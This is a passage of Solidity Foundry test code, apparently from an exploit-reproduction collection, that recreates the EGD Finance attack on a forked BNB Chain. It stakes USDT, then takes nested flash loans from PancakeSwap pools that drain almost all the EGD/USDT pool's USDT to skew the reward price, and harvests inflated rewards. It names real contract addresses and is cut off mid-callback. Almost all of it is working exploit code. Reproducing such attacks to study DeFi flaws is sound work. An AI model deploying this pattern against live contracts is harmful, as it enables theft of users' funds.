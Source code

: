 ```solidity
address constant USDT_ADDRESS = 0x55d398326f99059fF775485246999027B3197955;
address constant EGD_ADDRESS = 0x202b233735bF743FA31abb8f71e641970161bF98;

contract EGDFinanceAttacker is Test { // EOA Simulation

    function setUp() public {
        vm.createSelectFork("bsc",20245522); // Go back to staking time
        
    }

    function testExploit() public {
        Exploit exploit = new Exploit(); 
        console.log("---  Set-up, stake 100 USDT to EGD Finance ---");
        exploit.stake();
        vm.warp(1659914146); // set timestamp for staking reward
        console.log("---  Staking finished ------------------------");

        console.log("---  Starting hacking ------------------------");
        emit log_named_decimal_uint("[Start] Attacker USDT Balance", IERC20(USDT_ADDRESS).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[INFO] EGD/USDT Price before price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);
        emit log_named_decimal_uint("[INFO] Current earned reward (EGD token)", IEGD_Finance(EGD_Finance).calculateAll(address(exploit)), 18);

        exploit.harvest();

        console.log("--- Hacking finished  -----------------------");
        emit log_named_decimal_uint("[End] Attacker USDT Balance", IERC20(USDT_ADDRESS).balanceOf(address(this)), 18);
    }
}

contract Exploit is Test { // Attack Contract
    uint borrowUSDT;
    uint borrowUSDT2;

    function stake() public {
        deal(address(USDT_ADDRESS),address(this),100 ether); // set balance of address of (ERC20) to amount
        IEGD_Finance(EGD_Finance).bond(address(0x659b136c49Da3D9ac48682D02F7BD8806184e218));
        IERC20(USDT_ADDRESS).approve(EGD_Finance,100 ether);
        IEGD_Finance(EGD_Finance).stake(100 ether);
    }

    function harvest() public {
        console.log("Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve"); // Description
        borrowUSDT = 2000 ether;
        USDT_WBNB_LPPool.swap(borrowUSDT,0,address(this),"0000");
        console.log("Flashloan[1] : FlashLoan Payable success");
        IERC20(USDT_ADDRESS).transfer(msg.sender,IERC20(USDT_ADDRESS).balanceOf(address(this)));
    }

    function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {
        bool isBorrowUSDT = (keccak256(data) == keccak256("0000"));
        if (isBorrowUSDT){
            console.log("Receiving callback for FlashLoad[1]");
            borrowUSDT2 = IERC20(USDT_ADDRESS).balanceOf(address(EGD_USDT_LPPool)) * 9_999_999_925 / 10_000_000_000; //  99.99999925% USDT of EGD_USDT_LPPool reserve To manipulate price
            EGD_USDT_LPPool.swap(0,borrowUSDT2,address(this),"00");
            console.log("FlashLoad[2] payable success");
```